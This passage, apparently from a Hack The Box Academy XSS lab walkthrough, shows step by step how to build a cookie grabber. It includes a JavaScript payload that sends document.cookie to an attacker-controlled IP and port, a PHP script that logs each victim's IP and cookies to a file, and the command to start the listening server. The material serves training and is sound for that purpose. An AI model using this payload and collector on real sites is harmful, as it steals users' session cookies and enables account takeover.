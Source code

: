 Now that students have identified the vulnerable field, they need to write a JS cookie grabber to a local file (named `script.js`) so that it get requested for:

Code: js

```js
new Image().src='http://PWNIP:PWNPO/index.php?c=' + document.cookie;
```

Students can use `cat` to save the cookie grabber into a file:

Code: shell

```shell
cat << 'EOF' > script.js
new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
EOF
```

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ cat << 'EOF' > script.js
> new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
> EOF
```

Subsequently, students need to write a PHP script (named `index.php`) that will split cookies in case many were received (and writes them to a file):

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Then, students need to start an HTTP server with PHP in the same directory where `script.js` and `index.php` are:

Code: shell

```shell
php -S 0.0.0.0:PWNPO
```

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001

[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
```
